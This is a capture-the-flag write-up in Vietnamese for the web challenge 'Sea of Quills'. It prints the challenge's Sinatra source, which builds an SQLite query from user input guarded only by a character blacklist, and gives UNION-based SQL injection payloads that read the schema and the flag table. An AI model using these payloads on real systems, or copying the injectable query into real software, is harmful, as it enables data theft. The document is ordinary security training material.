




# Sea of Quills

## Description

Come check out our finest selection of quills!

[app.rb](app.rb)

## Points 

70 points

## Solution 

Web có hai trang là *Home* và *Explore* nhưng ta sẽ chú ý vào trang *Explore* .



Thử điền vào các trường amount và start from và gửi đi sau đó bắt request với burp suite .



Ta có thể thấy ngoài trường limit và offset còn có thêm một trường cols với tham số url, desc, name . Kết hợp với source code . 

```
require 'sinatra'
require 'sqlite3'

set :bind, "0.0.0.0"
set :port, 4567

get '/' do
	db = SQLite3::Database.new "quills.db"
	@row = db.execute( "select * from quills" )
	

	erb :index
end

get '/quills' do
	erb :quills	

end


post '/quills' do
	db = SQLite3::Database.new "quills.db"
	cols = params[:cols]
	lim = params[:limit]
	off = params[:offset]
	
	blacklist = ["-", "/", ";", "'", "\""]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}

	
	if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end

	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])

	p @row

	erb :specific
end
```

Từ các điều trên ta có thể sử dụng union để chèn thêm một câu select .Như vậy sau khi chèn câu query sẽ có dạng sau :

```
select sql from sqlite_master union select url from quills limit 5 offset 0
```

Ta sẽ truyền vào biến cols với payload ```sql from sqlite_master union select url ```



Kết quả trả về một bảng có tên là **flagtable**

Tiếp tục chèn payload ```flag from flagtable union select url ```



Ta có flag : actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}